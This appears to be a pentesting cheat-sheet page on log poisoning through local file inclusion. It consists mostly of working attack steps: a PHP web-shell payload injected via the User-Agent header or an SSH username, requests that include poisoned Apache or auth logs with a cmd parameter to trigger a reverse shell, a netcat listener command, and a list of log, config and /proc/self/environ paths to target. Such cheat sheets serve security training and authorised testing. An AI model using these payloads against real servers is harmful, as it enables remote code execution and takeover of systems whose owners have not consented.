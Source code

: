 ```yaml
---
title: "Log Poisoning"
draft: false
images: []
menu:
  docs:
    parent: "Wapp"
weight: 100
toc: true
---
```


## LOGS
* GET /browse.php?file=/var/log/httpd-access.log&cmd=revshell
* User Agent: Mozilla/5.0<?php system($_GET['cmd']); ?> Gecko ...
* nc -lvp 1234

**Note:** Remember to url encode the reverse shell
## SSH
* Try login ssh like this ssh '<?php system($_GET['cmd']); ?>'@10.10.10.10
* GET /browser.php?file=/var/log/auth.log&cmd=revshell
* nc -lvp 1234

**Note:** Remember to url encode the reverse shell
## COMMON LOG FILE LOCATION

### Ubuntu, Debian
```
/var/log/apache2/error.log
/var/log/apache2/access.log
```
### Red Hat, CentOS, Fedora, OEL, RHEL
```
/var/log/httpd/error_log
/var/log/httpd/access_log
```
### FreeBSD
```
/var/log/httpd-error.log
/var/log/httpd-access.log
```
### Ubuntu
```
/etc/apache2/apache2.conf
/etc/apache2/httpd.conf
/etc/apache2/apache2.conf
/etc/httpd/httpd.conf
/etc/httpd/conf/httpd.conf
```
### FreeBSD
```
/usr/local/etc/apache2/httpd.conf
/etc/apache2/sites-enabled/000-default.conf
/proc/self/environ
/proc/self/environ
```